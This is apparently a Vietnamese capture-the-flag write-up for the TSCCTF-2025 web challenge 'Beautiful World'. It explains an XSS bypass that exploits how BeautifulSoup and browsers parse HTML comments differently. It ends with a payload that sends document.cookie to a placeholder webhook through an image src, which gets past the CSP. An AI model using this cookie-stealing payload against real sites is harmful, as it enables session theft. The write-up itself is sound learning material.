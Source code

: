 # [TSCCTF-2025] Beautiful World
<p>Endpoint /note: dùng để xem nội dung note đã được encode base64. Dòng 31, lấy ra tham số content và decode base64. Sau đó, kiểm tra nếu tồn tại tag khác &lt;s> hoặc chứa các thuộc tính HTML thì return. Ngược lại, render file note.html với nội dung của note là chuỗi sau khi decode base64.</p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image.png)

<p>File note.html: hiển thị nội dung note. Dòng 9, thiết lập CSP quy định khi sử dụng các API như: fetch(), XMLHttpRequest,... chỉ được phép kết nối tới chính nó -> Tóm lại, không cho phép kết nối qua bên ngoài bằng fetch(), XMLHttpRequest,... Dòng 18, autoescape false dùng để tắt cơ chế escape mặc định. Dòng 19, render nội dung note -> Để trigger XSS, cần phải bypass kiểm tra của BeautifulSoup ở phía backend. Do BeautifulSoup và browser có cách phân tích cú pháp HTML khác nhau, có thể lợi dụng sự khác biệt này để không bị phát hiện khi parse bằng BeautifulSoup, nhưng vẫn thực thi trong trình duyệt -> Từ đó có thể khai thác XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image-1.png)

<p>
Có một trick để đóng thẻ comment <code>&lt;!--</code> là chèn thêm một dấu <code>&gt;</code>, khiến parser kết thúc phần comment sớm. Sau đó, có thể chèn đoạn mã HTML như <code>&lt;script>alert(1337)&lt;/script></code> để thực thi JavaScript. Trick này lợi dụng việc một số parser HTML như <code>BeautifulSoup</code> không xử lý phần đóng comment giống như browser, dẫn đến việc đoạn script lọt qua kiểm tra backend nhưng vẫn được render và thực thi ở phía người dùng (XSS).</p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image-2.png)

<p>Khi thêm <code>--></code> thì chỉ thêm chuỗi "-->" vào HTML chứ không có gì đặc biệt.</p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image-7.png)

<p>Tuy nhiên, với BeautifulSoup thì khi thêm <code>--></code> thì nó xem <code>&lt;script>alert(1337)&lt;/script></code> là nội dung trong comment -> bypass được việc kiểm tra tag bằng payload <code>&lt;!-->&lt;script>alert(1337)&lt;/script>--></code></p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image-8.png)

<p>Trước hết, cần encode base64 payload.</p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image-3.png)

<p>Sau đó, cần encodeURL payload đã encode base64.</p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image-4.png)

<p>Đưa chuỗi sau khi encode URL vào giá trị của tham số content tại endpoint /note. -> Chèn được tag &lt;script> vào nội dung HTML thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post14/image-5.png)

<p>Cuối cùng, thay đổi JS code để gửi cookie ra bên ngoài (sử dụng thuộc tính src để bypass việc kiểm tra của CSP). Payload để gửi cookie ra ngoài: </p>

```
<!--><script>new Image().src = "[your_webhook_link]?cookie=" + document.cookie</script>-->
```

![alt text](/thanhlai/post/web_exploitation/image/post14/image-6.png)